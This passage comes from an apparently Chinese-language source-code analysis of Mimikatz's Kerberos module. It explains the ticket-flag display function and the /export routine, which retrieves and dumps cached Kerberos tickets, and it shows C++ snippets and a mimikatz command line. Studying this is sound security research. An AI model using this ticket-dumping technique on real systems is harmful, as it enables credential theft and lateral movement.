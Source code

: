 ```cpp

    // ...

}
```

其中，kuhl\_m\_kerberos\_ticket\_displayFlags 函数定义如下：

```cpp
const PCWCHAR TicketFlagsToStrings[] = {
    L"name_canonicalize", L"?", L"ok_as_delegate", L"?",
    L"hw_authent", L"pre_authent", L"initial", L"renewable",
    L"invalid", L"postdated", L"may_postdate", L"proxy",
    L"proxiable", L"forwarded", L"forwardable", L"reserved",
};
void kuhl_m_kerberos_ticket_displayFlags(ULONG flags)
{
    DWORD i;
    for(i = 0; i < ARRAYSIZE(TicketFlagsToStrings); i++)
        if((flags >> (i + 16)) & 1)
            kprintf(L"%s ; ", TicketFlagsToStrings[i]);
}
```

该函数通过将票据标志位右移 i+16 位然后与 1 进行与运算（&amp;）来判断当前标志位是否为 1，如果为 1，则输出对应的标志位字符串。

最终执行效果如下：

```cmd
mimikatz.exe "kerberos::list" exit
```

![](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-c1cce938615ad0e5d169975125f2a4602285e685.png)

Export All Tickets
------------------

如果指定了 `/export` 选项，则转储当前用户缓存的所有票据。这里将使用前面声明的 KERB\_RETRIEVE\_TKT\_REQUEST 结构体 pKerbRetrieveRequest。

由于需要在 pKerbRetrieveRequest 中指定 TargetName，以筛选指定 TargetName 的票据，因此需要扩展 pKerbRetrieveRequest 的大小，如下所示。这里在 pKerbRetrieveRequest 原来 `sizeof(KERB_RETRIEVE_TKT_REQUEST)` 大小的基础上加了 `Tickets[i].ServerName.MaximumLength`。

```cpp
szData = sizeof(KERB_RETRIEVE_TKT_REQUEST) + pKerbCacheResponse->Tickets[i].ServerName.MaximumLength;
if (pKerbRetrieveRequest = (PKERB_RETRIEVE_TKT_REQUEST)LocalAlloc(LPTR, szData))
{
    // ...
}
```

然后开始设置 pKerbRetrieveRequest 的成员值，用于从缓存中筛选出符合指定条件的票据，如下所示。

```cpp
pKerbRetrieveRequest->MessageType = KerbRetrieveEncodedTicketMessage;
pKerbRetrieveRequest->CacheOptions = /*KERB_RETRIEVE_TICKET_USE_CACHE_ONLY | */KERB_RETRIEVE_TICKET_AS_KERB_CRED;
pKerbRetrieveRequest->TicketFlags = pKerbCacheResponse->Tickets[i].TicketFlags;
pKerbRetrieveRequest->TargetName = pKerbCacheResponse->Tickets[i].ServerName;
pKerbRetrieveRequest->TargetName.Buffer = (PWSTR)((PBYTE)pKerbRetrieveRequest + sizeof(KERB_RETRIEVE_TKT_REQUEST));
RtlCopyMemory(pKerbRetrieveRequest->TargetName.Buffer, pKerbCacheResponse->Tickets[i].ServerName.Buffer, pKerbRetrieveRequest->TargetName.MaximumLength);
```
